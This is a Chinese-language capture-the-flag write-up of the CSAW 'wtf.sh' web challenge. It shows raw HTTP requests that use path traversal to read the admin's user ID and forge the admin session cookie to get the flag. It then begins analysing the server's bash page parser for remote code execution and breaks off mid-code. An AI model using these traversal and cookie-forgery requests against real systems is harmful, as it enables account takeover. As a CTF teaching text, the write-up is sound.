 发现自己注册的账号以及 admin 都被显示了出来，对比之前的 cookie，发现这个就是`TOKEN`的值。

admin 的`TOKEN`也知道了，可以进行 cookie 欺骗。另外一串东西发现是密码的 sha1。

#### 法一 未尝试

在code（`user_functions.sh`）中看到，只要用户在users_lookup中注册目录，就会使用用户名的SHA1作为directoroy名称创建。为了获得管理员用户访问管理员配置文件的正确用户ID，我们只需读取用户ID文件即可：

```http
GET /profile.wtf?user=../users_lookup/4015bc9ee91e437d90df83fb64fbbe312d9c9f05/userid HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=test; TOKEN=HqZLY8GTURdESfMQn2+vDPRL4hpafUVU+ZeEhMGllZmEoD+AVa4Ucc9bIg9ht0r0gTzoDA927dK9OgLVxfHoYw==


HTTP/1.1 200 OK
[...]
<h3>QNI5P's posts:</h3>
[...]
```

现在我们可以获得旗帜：

```http
GET /profile.wtf?user=QNI5P HTTP/1.1
Host: web.chal.csaw.io:8001
Cookie: USERNAME=admin; TOKEN=ecX+3sJzU16hZeUPdfVy+h8kDJXsvR4DOd1QrliIBLRmgYs7sFqJvL/zRmUyhul5GtlLRbTHI/SWHMyNTcWPSw==


HTTP/1.1 200 OK
[...]
Flag: flag{l00k_at_m3_I_am_th3_4dm1n_n0w}
[...]
```

#### 法二
抓包，cookie欺骗
![img](https://blog.cindemor.com/static/upload/20190305/upload_008030a170c04487421660187e49bc67.png)

## wtf.sh（2）

挑战的第二部分有点复杂。我们不得不打电话`get_flag2`，但我们抛弃的代码没有包含任何参考。因此，我们必须深入研究代码以获取远程代码。

因为 wtf 不是常规的网页文件，故寻找解析 wtf 文件的代码

我们在代码中看到`wtf.sh`包含一个解析和执行.wtf文件的函数：

```sh
max_page_include_depth=64
page_include_depth=0
function include_page {
    # include_page <pathname>
    local pathname=$1
    local cmd=""
    [[ "${pathname:(-4)}" = '.wtf' ]];
    local can_execute=$?;
    page_include_depth=$(($page_include_depth+1))
    if [[ $page_include_depth -lt $max_page_include_depth ]]
    then
        local line;
        while read -r line; do
            # check if we're in a script line or not ($ at the beginning implies script line)
            # also, our extension needs to be .wtf
            [[ "$" = "${line:0:1}" && ${can_execute} = 0 ]];
            is_script=$?;
```